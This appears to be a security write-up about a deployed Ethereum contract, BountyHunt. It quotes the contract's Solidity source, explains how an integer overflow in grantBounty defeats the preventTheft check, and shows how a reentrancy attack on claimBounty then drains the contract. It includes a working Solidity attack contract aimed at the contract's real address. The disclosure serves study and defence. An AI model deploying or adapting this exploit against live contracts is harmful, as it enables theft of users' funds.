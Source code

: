 BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner use modifier `preventTheft` to prevent attacks. However, there exist an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------
 ![1.png](./no_src/picture/1.png "1.png")

